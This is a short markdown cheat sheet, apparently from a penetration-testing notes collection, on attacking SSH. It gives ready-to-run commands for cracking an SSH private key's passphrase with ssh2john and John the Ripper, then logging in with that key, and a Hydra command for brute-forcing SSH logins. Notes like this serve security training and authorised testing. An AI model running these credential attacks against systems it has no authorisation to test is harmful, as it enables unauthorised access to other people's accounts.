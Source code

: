 # SSH

The [Secure Shell](https://en.wikipedia.org/wiki/Secure_Shell) Protocol is a cryptographic network protocol for operating network services securely over an unsecured network.

## John the Ripper

[John the Ripper] is a fast password cracker. Its primary purpose is to detect weak Unix passwords. You can use it to crack encrypted RSA keys.

```bash
# format the key to johns format

ssh2john ssh.key > ssh.hash

# crack the hash

john --wordlist=$WORDLIST ssh.hash

# set permissions and log in using the rsa key

chmod 600 ssh.key

ssh -i ssh.key user@host
```
## Hydra

[Hydra](https://github.com/vanhauser-thc/thc-hydra) is a parallelized login cracker which supports numerous protocols to attack. You can use it to bruteforce SSH login.

```bash
hydra -t 16 -l $USER -P $WORDLIST -vV $IP ssh
```